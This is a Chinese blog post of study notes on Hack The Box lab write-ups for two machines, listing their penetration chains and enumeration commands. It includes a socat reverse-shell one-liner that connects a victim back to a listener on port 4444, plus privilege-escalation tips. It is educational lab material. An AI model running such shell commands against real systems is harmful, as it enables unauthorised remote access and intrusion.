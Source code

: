 ```yaml
---
layout: post
title: 《0xrick's Write-ups for hack-the-box》学习备忘录
description: ""
keywords: ""
---
```


国外Ahmed Hesham师傅记录了50多个Hack The Box环境的渗透Writeup，很有学习价值，其中的渗透流程十分清晰，也有规律可循，可以看出师傅的渗透习惯，这里我将其中的知识点和自己的思考分享给大家。

Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：使用[ttsmp3](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
